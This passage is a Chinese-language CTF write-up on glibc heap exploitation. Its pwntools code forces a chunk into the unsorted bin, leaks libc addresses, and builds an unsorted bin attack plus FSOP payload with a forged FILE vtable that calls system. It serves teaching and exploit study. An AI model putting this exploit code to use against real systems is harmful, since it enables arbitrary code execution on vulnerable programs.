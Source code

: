 ### 插入unsorted bin

这一步通过reintroduce的功能，改写name chunk的size字段，大于`MAX_FAST_SIZE`即可，在64位上最大是0x88，所以这里设置为`0x90 | previnuse 1`。然后通过eat来将其放到unsorted bin中，此时name + 0x10指向的是unsorted bin也就是libc中的地址。

```py
reintroduce(p64(0) + p64(0x91))
eat(5)
```

### leak libc

通过reintroduce来改写字符串并leak libc的地址，再通过`system`和`_IO_list_all`函数的偏移来计算出它们各自的实际地址。

```py
# leak libc: unsorted bin address
reintroduce('A'*15)
p.recvline()
addrStr = p.recvline()[:-2]
leakAddr = u64(addrStr.ljust(8, b"\x00"))
log.info("leakAddr: {}".format(hex(leakAddr)))

# system address
systemAddr = leakAddr - unsortedBinOffset + systemOffset

# _IO_list_all
IOListAllAddr = leakAddr + 0x9a8
log.info("IO_list_all: {}".format(hex(IOListAllAddr)))
```

### unsorted bin attack + FSOP

```c
    unsorted_chunks (av)->bk = bck;
    bck->fd = unsorted_chunks (av);
```

如果要使指针A的值指向unsorted bin，则需要将其-0x10后放置到chunk->bk的位置，这样fake chunk的fd也就是A就会指向unsorted bin。

同时需要在name这块内存中伪造一个FILE结构体。上一篇[house_of_orange的分析](../how2heap_house_of_orange)中对FSOP已经有较详细的介绍，这里大概说明下：在程序退出时会触发一个刷新IO的机制，此时会遍历`IO_list_all`的chain指针，假设当前遍历到了`_IO_FILE_plus A`，则会调用A的vtable中的`_IO_overflow(fp, EOF)`函数刷新IO，我们的目的也就是替换掉`_IO_overflow`这个函数以及它的fp参数。同时要绕过在执行该函数前对`(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)`的检查。

通过计算结构体中vtable以及_mode等字段的偏移，来设置我们的payload。但此时该结构体还未插入`_IO_list_all`的chain(fp + 0x68)字段中，由于此时`_IO_list_all`指向的是unsorted bin，所以我们需要将伪造的结构体插入到unosorted bin + 0x68即smallbin[4](90 ~ 98)的位置。

所以我们通过改写fake chunk的大小为0x61，使下次malloc时，将unsorted bin中的chunk放到对应的bin中，也就是smallbin[4]的位置。

```py
# unsorted bin attack + FSOP
payload = sh + p64(0x61) + p64(leakAddr) + p64(IOListAllAddr - 0x10)
payload += p64(2) + p64(3) + p64(systemAddr) * 0x12 + p64(0) * 3 + p64(nameAddr + 0x30)

reintroduce(payload)
```
